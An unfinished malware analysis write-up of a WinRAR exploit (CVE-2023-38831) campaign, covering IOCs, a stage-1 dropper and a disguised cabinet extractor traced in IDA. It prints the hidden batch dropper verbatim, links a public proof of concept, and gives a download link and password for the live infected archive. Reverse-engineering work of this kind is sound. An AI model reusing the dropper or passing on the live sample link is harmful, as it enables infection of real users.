




# Summary

Original infected RAR file: https://mega.nz/file/AlZhFQKJ#kPHC0d7ysiVYBwBoM62l6UdbY9GMxD02jf7H11Keq3w (Password: _**infected**_)

### Indicators of compromise

C2 IP: 84.32.189.74:1212

C2 domain: 87iavv.com

Registry keys added:

```
Windows Registry Editor Version 5.00
[HKEY_CURRENT_USER\Software\Classes\CLSID\{EA6FC2FF-7AE6-4534-9495-F688FEC7858C}]
@="Cabinet.ModuleClassK"
[HKEY_CURRENT_USER\Software\Classes\CLSID\{EA6FC2FF-7AE6-4534-9495-F688FEC7858C}\Implemented Categories]
[HKEY_CURRENT_USER\Software\Classes\CLSID\{EA6FC2FF-7AE6-4534-9495-F688FEC7858C}\Implemented Categories\{40FC6ED5-2438-11CF-A3DB-080036F12502}]
[HKEY_CURRENT_USER\Software\Classes\CLSID\{EA6FC2FF-7AE6-4534-9495-F688FEC7858C}\InprocServer32]
@="Cabinet.ocx"
"ThreadingModel"="Apartment"
[HKEY_CURRENT_USER\Software\Classes\CLSID\{EA6FC2FF-7AE6-4534-9495-F688FEC7858C}\ProgID]
@="Cabinet.ModuleClassK"
[HKEY_CURRENT_USER\Software\Classes\CLSID\{EA6FC2FF-7AE6-4534-9495-F688FEC7858C}\Programmable]
[HKEY_CURRENT_USER\Software\Classes\CLSID\{EA6FC2FF-7AE6-4534-9495-F688FEC7858C}\TypeLib]
@="{8F1576C0-BB08-4F05-87A6-268C0D548794}
[HKEY_CURRENT_USER\Software\Classes\CLSID\{EA6FC2FF-7AE6-4534-9495-F688FEC7858C}\VERSION]
@="1.0"
```

### Virus Total hashes

Original RAR: [5a387ee6d0dcbbf2cd97379c68d8e3398d01a920873ddd45ff21dbfccb19e2ee](https://www.virustotal.com/gui/file/5a387ee6d0dcbbf2cd97379c68d8e3398d01a920873ddd45ff21dbfccb19e2ee)

Stage 1 (Images.ico): [02f9219f9d1bf03b2231f9499780d21b349285601ab8c31be2f5401c479217f2](https://www.virustotal.com/gui/file/02f9219f9d1bf03b2231f9499780d21b349285601ab8c31be2f5401c479217f2)

Stage 2 (cc.exe, fk.png, sb.ocx, sn.ocx): 

[bc2378e4c3102d5e194963b5eaa941d99934909058b668b73c5f52404fbeafd4](https://www.virustotal.com/gui/file/bc2378e4c3102d5e194963b5eaa941d99934909058b668b73c5f52404fbeafd4)

[9e83f04480678c4f202519cddea90ba9d044b70408ae2255c89e57ce116bd85c](https://www.virustotal.com/gui/file/9e83f04480678c4f202519cddea90ba9d044b70408ae2255c89e57ce116bd85c)

[e3484f28d224591e5e85c5a749acfab4f9f60103f34723260d78b4728c7a718d](https://www.virustotal.com/gui/file/e3484f28d224591e5e85c5a749acfab4f9f60103f34723260d78b4728c7a718d)

[8dec713b9287432b694e5d1678e30118555dcd834d8c2e28b2e89e98205bba5b](https://www.virustotal.com/gui/file/8dec713b9287432b694e5d1678e30118555dcd834d8c2e28b2e89e98205bba5b)


Stage 3 (Cabinet.ocx): [800fbed7ecd21452e4230ffb7fb6b8609f6e9c838c087b35cce41b250370a18b](https://www.virustotal.com/gui/file/800fbed7ecd21452e4230ffb7fb6b8609f6e9c838c087b35cce41b250370a18b)

# Stage 0 - The WinRAR zero-day

Winrar exploit described: https://googleprojectzero.github.io/0days-in-the-wild//0day-RCAs/2023/CVE-2023-38831.html

PoC: https://github.com/b1tg/CVE-2023-38831-winrar-exploit


TODO

# Stage 1 - Powershell script and `Images.ico`

In the infected WinRAR file that we have, there's a file called `Screenshot_05-04-2023.jpg` and a folder called `Screenshot_05-04-2023.jpg` with a space at the end. The space at the end being what is described above that forces the opening of the jpg file to actually go into the directory by the same name with the space, and open a file called `Screenshot_05-04-2023.jpg /Screenshot_05-04-2023.jpg .cmd` which contains the following:

```powershell
@echo off
if not DEFINED IS_MINIMIZED set IS_MINIMIZED=1 && start "" /min "%~dpnx0" %* && exit
cd %TEMP% 
for /F "delims=" %%K in ('dir /b /s "Screenshot_05-04-2023.jpg"') do for /F "delims=" %%G in ('dir /b /s "Images.ico"') do WMIC process call create "%%~G"&&"%%~K"&&exit
exit
```

Formatting to make it easier to read:

```powershell
@echo off
if not DEFINED IS_MINIMIZED set IS_MINIMIZED=1 && start "" /min "%~dpnx0" %* && exit
cd %TEMP% 
for /F "delims=" %%K in ('dir /b /s "Screenshot_05-04-2023.jpg"') do
	for /F "delims=" %%G in ('dir /b /s "Images.ico"') do
		WMIC process call create "%%~G"&&"%%~K" && exit
exit
```

It starts a command prompt in minimized mode, `cd`'s into the `%TEMP%` directory, then loops over the files named `Screenshot_05-04-2023.jpg` and `Images.ico`. From there `WMIC` is called (_Windows Management Instrumentation_) which is responsible for creating new processes, executing first `Images.ico`.

Loading `Images.ico` into DIE (Detect-It-Easy) reveals some valuable information.


We see that it is recognized as a PE file, with several sections, including an embedded [Microsoft Cabinet Archive](https://learn.microsoft.com/en-us/windows/win32/msi/cabinet-files) which is a compressed archive of files.

We can confirm this by looking at the entropy graph which shows the resources section being considered completely packed, meaning it's either compressed or encrypted.



We also see some interesting values in the imported resources table:


 
The resource being highlighted shows a value of *CABINET*, and then we see in the hex below the magic number `4D 53 43 46` which in text format is *MSCF*, [which corresponds to the Microsoft Cabinet file format](https://en.wikipedia.org/wiki/List_of_file_signatures). Just in the top part of the cabinet file, we see the names of the files that it contains:

* `sn.ocx`
* `add.txt`
* `cc.exe`
* `sb.ocx`

Another interesting resource has a value of *RUNPROGRAM* and a hex value that corresponds to *cc.exe*.

We can dump all of these resources to a folder and look at each one. Some other interesting files that are found are an actual PNG icon image of space:


And an AVI file that shows an animated image of two folders with files being transferred between them.

<video style="margin:auto; width: 500px" src="./assets/images-file-transfer-avi.mp4" controls></video>

The last thing we'll look at in DIE is if there are any debug symbols, which in this case, there are. We found out that the PDB file that goes with this binary is called `wextract.pdb`.

Now we can start to build a hypothesis as to what this first stage does. Putting the pieces together, it appears that it is some sort of extraction binary that has a misleading file extension and icon to disguise itself. And upon loading this file via the CMD scripts shown above, the extraction AVI will be played to make the victim think their files are being extracted from WinRAR like normal, when in actuality, it's loaded a PE file that is extracting a Microsoft Cabinet Archive that has contains the following stages, based on the resource table, we can infer that the program that will be run upon Cabinet extraction is called `cc.exe`.

Loading `Images.ico` into IDA and finding the `start` function leads us to find what looks like the structure of the [`WinMain` entry point](https://learn.microsoft.com/en-us/windows/win32/learnwin32/winmain--the-application-entry-point) at `sub_100637A`.



After some initializations and OS version checks that occur in `sub_10053FA`, the following `sub_1006205` function is executed, this is is the primary function of the program and is where all important subsequent calls will be executed from.


`sub_1005F21` creates a dir in the TEMP directory at `C:\Users\User\AppData\Local\Temp\IXP000.TMP`, adds an empty file to it called `TEMP4351$.TMP`, deletes it, then it calls [`GetFileAttributesA`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-getfileattributesa) on the `IXP000.TMP`, making sure that it doesn't return anything other than `0x10` which [resolves to FILE_ATTRIBUTE_DIRECTORY](https://learn.microsoft.com/en-us/windows/win32/fileio/file-attribute-constants). This is most likely a way to ensure the current user has permissions to read/write to the TEMP directory.

Beginning at `loc_1006260` we see some dynamic import resolution via the `sub_10066CF` function which adds a file path to memory. In this example, we see `advapi32.dll` is added to the `C:\Windows\System32\` path, dynamically loaded into memory, and then resolves the [`DecryptFileA`](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-decryptfilea) method and calls it.


If we step through the Windows syscalls, eventually we get to `feclient_EfsClientDecryptFile` which checks the `IXP000.TMP` directory attributes to ensure they're not `0x4000` [(`FILE_ATTRIBUTE_ENCRYPTED`)](https://learn.microsoft.com/en-us/windows/win32/fileio/file-attribute-constants). Since in this example the folder is not encrypted, it returns early. If there was an EFS flag on the directory, the code would decrypt it.

`sub_1005A36` begins the extraction algorithm:


Once the bytes are setup, `StartAddress` is called which loads a resource called `CABINET` - the resource that we found through DIE. FDICreate and FDICopy are called, copying the contents of the cabinet file to the `IXP000.TMP` directory. A file copy dialog is shown with the AVI video we saw in the DIE resource above:



And now we have the files for the next stages:


`sub_1005ABC` is called which runs through various possible resource flags, eventually landing on a resource called `RUNPROGRAM`, which according to DIE, resolves to `cc.exe`, this file is loaded into memory (TODO: is this right?) and a registry key is added to `HKLM\SOFTWARE\WOW6432Node\Microsoft\Windows\CurrentVersion\RunOnce\wextract_cleanup0` with a value of `rundll32.exe C:\Windows\system32\advpack.dll,DelNodeRunDLL32 "C:\Users\User\AppData\Local\Temp\IXP000.TMP\"`

`sub_1004CAE` loads `cc.exe` into memory and spins up a new process:



Bringing us to the second stage.

# Stage 2 - `cc.exe`


TODO: figure out what UPDFILE does?